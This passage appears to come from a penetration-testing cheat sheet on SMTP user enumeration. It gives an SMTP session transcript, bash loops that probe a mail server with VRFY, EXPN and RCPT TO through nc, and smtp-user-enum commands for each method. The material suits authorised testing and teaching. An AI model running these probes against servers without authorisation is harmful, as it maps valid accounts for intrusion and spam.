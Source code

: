 ```bash

VRFY root
250 2.1.5 root <root@target.com>

VRFY admin
550 5.1.1 admin... User unknown

QUIT
221 2.0.0 Bye
```

### User Verification Methods

#### VRFY Method
```bash
# Systematic user enumeration
users=("root" "admin" "administrator" "user" "guest" "mail" "postmaster" "www-data" "apache" "nginx")

for user in "${users[@]}"; do
    echo "VRFY $user" | nc target 25 | grep -E "250|550"
done
```

#### EXPN Method
```bash
# Mailing list expansion
lists=("all" "everyone" "staff" "users" "admin" "root")

for list in "${lists[@]}"; do
    echo "EXPN $list" | nc target 25
done
```

#### RCPT TO Method
```bash
# Email address validation
domains=("target.com" "localhost" "127.0.0.1")

for domain in "${domains[@]}"; do
    echo -e "EHLO test.com\nMAIL FROM:<test@test.com>\nRCPT TO:<root@$domain>" | nc target 25
done
```

---

## Automated Enumeration

### smtp-user-enum
```bash
# Install smtp-user-enum
# apt-get install smtp-user-enum

# VRFY method enumeration
smtp-user-enum -M VRFY -U users.txt -t target

# EXPN method enumeration
smtp-user-enum -M EXPN -U users.txt -t target

# RCPT method enumeration
smtp-user-enum -M RCPT -U users.txt -t target

# Specify custom port
smtp-user-enum -M VRFY -U users.txt -t target -p 587
```
